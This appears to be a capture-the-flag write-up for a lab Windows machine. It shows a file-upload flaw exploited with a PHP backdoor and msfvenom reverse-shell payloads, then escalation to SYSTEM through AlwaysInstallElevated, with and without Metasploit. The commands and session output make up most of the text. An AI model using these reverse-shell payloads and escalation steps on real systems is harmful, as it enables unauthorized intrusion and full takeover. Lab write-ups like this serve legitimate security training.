

Interacting with the website, there was not much to see. However, the broken images caught my attention. Clicking on the user profile on the top right, an option to update profile is available. This allows us to add a new image for the profile and could be manipulated to obtain a shell.

# Exploitation with Metasploit
We can use a PHP reverse shell payload or an exe payload with a PHP backdoor payload to get the user shell. For the demonstration, I have used the latter method.

## **Generate payload**
```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.173 LPORT=1337 -f exe > exploit.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```
The PHP payload was taken from the "/usr/share/webshells/php/simple-backdoor.php".

## **Metasploit shell**
Once the two payloads were uploaded successfully, I launched a metasploit handler module to listen and navigated to the /images/ folder on the webserver. 
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.173:1337 
```

The "simple-backdoor.php" payload allows us to execute commands on the target system passed as parameter in the request. Passing "dir" as input shows the contents of the directory and proves that our exploit works.

Now, we can execute the .exe payload by passing "exploit.exe" as command to the PHP script and a user shell is obtained.
```
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.16.173:1337 -> 10.10.10.239:56465) at 2021-06-12 13:41:17 -0400

meterpreter > getuid
Server username: LOVE\Phoebe
```
The user flag is accessible now.

## **Privilege Escalation**
The metasploit module, "multi/recon/local_exploit_suggester", makes it easy to find exploits for privilege escalation.
```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.239 - Collecting local exploits for x86/windows...
[*] 10.10.10.239 - 38 exploit checks are being tried...
[+] 10.10.10.239 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.10.10.239 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.239 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[+] 10.10.10.239 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.10.10.239 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.10.239 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed
```
Only the always_install_elevated module works and gives a SYSTEM shell.
```
msf6 exploit(windows/local/always_install_elevated) > run

[*] Started reverse TCP handler on 10.10.16.173:4444 
[*] Uploading the MSI to C:\Users\Phoebe\AppData\Local\Temp\gwrmiMEZs.msi ...
[*] Executing MSI...
[*] Sending stage (175174 bytes) to 10.10.10.239
[+] Deleted C:\Users\Phoebe\AppData\Local\Temp\gwrmiMEZs.msi
[*] Meterpreter session 2 opened (10.10.16.173:4444 -> 10.10.10.239:56466) at 2021-06-12 13:46:48 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

# Manual Exploitation w/o Metasploit
Like exploitation with Metasploit, we again upload a PHP script, downloaded from [here](https://github.com/ivan-sincek/php-reverse-shell), and navigate to it. Instead of metasploit handler, we start a netcat listener and a user shell is obtained.

```
$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.16.173] from staging.love.htb [10.10.10.239] 56581
SOCKET: Shell has connected! PID: 648
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
love\phoebe
```
## **Privilege Escalation**
As .NET is installed on the system, we can run WinPEAS to determine possible escalation vectors. And, like metasploit, it identifies that the AlwaysInstallElevated registry key is enabled. This allows us to install .msi files with SYSTEM privilege.


### Generate payload
```
$ msfvenom --payload windows/x64/shell_reverse_tcp LHOST=10.10.16.173 LPORT=1337 --format msi --out exploit.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: exploit.msi
```
### Exploitation
Once we copy the payload to the target system using SMB, we trigger it as below and wait for the connection to be received by the netcat listener.
```
C:\xampp\htdocs\omrs\images>copy \\10.10.16.173\share\exploit.msi
        1 file(s) copied.

C:\xampp\htdocs\omrs\images>msiexec /quiet /qn /i exploit.msi
```
Finally, SYSTEM shell is received.
```
$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.16.173] from staging.love.htb [10.10.10.239] 57177
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

# Post Exploitation
## **User Flag**
```
meterpreter > cd Users/Phoebe
meterpreter > cd Desktop
meterpreter > cat user.txt 
db****************************b4
```

## **Root Flag**
```
meterpreter > cd Users/Administrator
meterpreter > cd Desktop
meterpreter > cat root.txt 
70****************************14
```